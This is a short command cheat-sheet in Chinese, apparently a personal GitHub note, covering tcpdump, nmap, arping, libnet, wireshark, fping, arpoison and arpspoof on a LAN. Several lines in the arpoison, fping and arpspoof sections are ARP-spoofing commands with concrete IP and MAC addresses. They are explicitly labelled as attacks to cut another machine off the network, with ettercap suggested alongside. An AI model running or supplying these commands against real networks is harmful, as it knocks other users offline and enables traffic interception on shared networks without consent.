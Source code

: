 <!-- TOC depthFrom:1 depthTo:6 withLinks:1 updateOnSave:1 orderedList:0 -->

- [tcpdump](#tcpdump)
	- [抓包](#抓包)
- [nmap](#nmap)
	- [扫描](#扫描)
- [arpping](#arpping)
- [libnet](#libnet)
- [arpison](#arpison)
- [wireshark](#wireshark)
- [fping](#fping)
- [arpspoof](#arpspoof)

<!-- /TOC -->


# tcpdump
check complain mode   
tcpdump: test1.log: Permission denied  
开始以为是用户权限的问题，后来换用root账户还是不行，经搜索，是AppArmor的问题  
apt-get install apparmor-utils
sudo aa-complain /usr/sbin/tcpdump  

## 抓包
tcpdump -i eth0 -nn 'host 192.168.2.249' -w check.cap
tcpdump -i eth0 -nn 'host 192.168.2.246' -w check.cap
tcpdump  -p arp
tcpdump host 192.168.2.1 -w check.cap
抓取网口eth0上源mac地址或目的mac地址为00:21:85:6C:D9:A3的所有数据包  
tcpdump -i eth0 ether src or dst 34:97:f6:99:a1:ed -w check.cap   

sudo tcpdump -n -r arp_check222.cap|awk -F '[,]+' '{print $2}'|sort|uniq -c|sort -n  

# nmap
## 扫描
nmap -sP 192.168.2.0/24

# arpping

用法举例：比如我的ip 192.168.1.101 网关:192.168.1.1  
arping -U -I eth0 -s 192.168.2.88 192.168.2.1  
arping -U -I eth0 -s 192.168.1.229 192.168.1.1  

# libnet
wget https://nchc.dl.sourceforge.net/project/libnet-dev/libnet-1.1.6.tar.gz  
tar zxvf libnet-1.1.6.tar.gz  
cd libnet-1.1.6/  
sudo ./configure  
sudo make  
sudo make install  


# arpison
gcc arpoison.c /usr/local/lib/libnet.a -o arpoison  
sudo ln -sf arpoison /bin/arpoison  

比如我想防止arp 攻击
sudo arpoison -i eth0 -d 192.168.1.1 -s 192.168.1.101 -t ff:ff:ff:ff:ff:ff -r 00:1c:bf:03:9f:c7

比如我想攻击192.168.1.50的机器不让他上网
sudo arpoison -i eth0 -d 192.168.1.50 -s 192.168.1.1 -t ff:ff:ff:ff:ff:ff -r 00:1c:bf:03:9f:c7
sudo arpoison -i enp4s0 -d 192.168.2.249 -s 192.168.2.1 -t ff:ff:ff:ff:ff:ff -r 1c:1b:0d:2d:94:87

# wireshark  
sudo apt-add-repository ppa:wireshark-dev/stable  
sudo apt-get update  
sudo apt-get install wireshark  
sudo dpkg-reconfigure wireshark-common  

# fping
在一个局域网中，我们如果要对某个主机进行断网攻击的话，我们先要查看局域网中的ip  
fping –asg 10.10.10.0/24  

# arpspoof
进行断网攻击  
sudo arpspoof -i enp4s0 -t 192.168.2.252 192.168.2.254  
ettercap -Tq -i enp4s0  

